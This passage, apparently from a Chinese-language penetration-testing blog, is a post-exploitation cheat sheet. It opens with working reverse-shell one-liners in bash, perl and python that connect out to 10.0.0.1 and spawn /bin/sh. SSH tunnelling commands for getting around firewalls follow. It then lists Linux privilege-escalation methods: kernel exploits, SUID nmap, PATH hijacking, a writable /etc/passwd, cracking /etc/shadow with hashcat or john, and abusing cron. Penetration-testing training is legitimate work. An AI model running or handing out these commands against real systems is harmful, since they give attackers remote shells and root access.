 <pre class="brush:plain;toolbar:false" nodeIndex="80">
bash:bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
perl: perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
python: python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
</pre>
<p nodeIndex="81"><span nodeIndex="317">使用SSH通道：</span></p>

<pre class="brush:plain;toolbar:false" nodeIndex="83">
Ssh -qTfnN -L port:host:hostport -l user remote_ip 正向隧道，监听本地port
Ssh -qTfnN -R port:host:hostport -l user remote_ip 反向隧道，用于内网穿透防火墙限制之类
Ssh -qTfnN -D port remotehost 直接进行socks代理
</pre>
<p nodeIndex="84"><span nodeIndex="318">参数：</span></p>

<pre class="brush:plain;toolbar:false" nodeIndex="86">
-q 安静模式
-T 不占用shell
-f 后台运行，推荐加-n参数
-N 不执行远程命令
</pre>
<p nodeIndex="87"><span nodeIndex="319">SSH端口转发：</span></p>

<pre class="brush:plain;toolbar:false" nodeIndex="89">
Ssh -CfNg -L port1:127.0.0.1:port2 user@host 本地转发
Ssh -CfNg -R port2:127.0.0.1:port1 user@hsst 远程转发
</pre>


<p nodeIndex="92"><span nodeIndex="325"><strong nodeIndex="326"><span nodeIndex="327">拿到shell后的两个方向</span></strong></span></p>
<hr nodeIndex="328"><p nodeIndex="93"><span nodeIndex="329"><strong nodeIndex="330"><span nodeIndex="331">如果是低权限的机器，就提权：</span></strong></span></p>
<p nodeIndex="94"><span nodeIndex="332">检查操作系统发行版本：lsb_release -a</span></p>
<div id="RIL_IMG_5" class="RIL_IMG"><img src="/media/posts_images/2017-04-03-1681852376/5"/></div>
<p nodeIndex="96"><span nodeIndex="334">依据系统的内核，寻找对应的exp提权：</span></p>
<p nodeIndex="97"><span nodeIndex="335">根据内核寻找exp的网站：</span> <a href="https://www.kernel-exploits.com/" nodeIndex="336"><span nodeIndex="337">https://www.kernel-exploits.com/</span></a> <span nodeIndex="338">，也可以用kali下的searchsploit命令</span></p>
<div id="RIL_IMG_6" class="RIL_IMG"><img src="/media/posts_images/2017-04-03-1681852376/6"/></div>
<p nodeIndex="99"><span nodeIndex="340">如果尝试的所有的exp都失败了，可以试一试新版本内核的exp。但是注意，内核exp提权有崩溃系统的风险。</span></p>
<p nodeIndex="100"><span nodeIndex="341"><strong nodeIndex="342"><span nodeIndex="343">一些其他的办法：</span></strong></span></p>
<p nodeIndex="101"><span nodeIndex="344">利用SUID提权</span></p>
<p nodeIndex="102"><span nodeIndex="345">1. SUID是一种属性，他允许用户执行的文件以该文件的拥有者身份运行。3.81的nmap中可以使用交互模式以root执行任意系统命令。</span></p>
<p nodeIndex="103"><span nodeIndex="346">2. 环境变量劫持的方法提权</span></p>
<p nodeIndex="104"><span nodeIndex="347">3. Passwd文件是否可写，可写则修改密码登录</span></p>
<div id="RIL_IMG_7" class="RIL_IMG"><img src="/media/posts_images/2017-04-03-1681852376/7"/></div>
<p nodeIndex="106"><span nodeIndex="349">4. Shadow是否可读，可读则使用hashcat或john暴力破解</span></p>
<div id="RIL_IMG_8" class="RIL_IMG"><img src="/media/posts_images/2017-04-03-1681852376/8"/></div>
<p nodeIndex="108"><span nodeIndex="351">5. 使用web端的一些密码测试root密码是否相同</span></p>
<p nodeIndex="109"><span nodeIndex="352">6. 使用命令 ls -l /etc/cron* 查看计划任务，也许会有脚本使自己成为root用户</span></p>
<div id="RIL_IMG_9" class="RIL_IMG"><img src="/media/posts_images/2017-04-03-1681852376/9"/></div>
<p nodeIndex="111"><span nodeIndex="354">使用命令 netstat -antup查看服务，有没有什么神奇的服务，可以用nc转发出来。</span></p>
<div id="RIL_IMG_10" class="RIL_IMG"><img src="/media/posts_images/2017-04-03-1681852376/10"/></div>
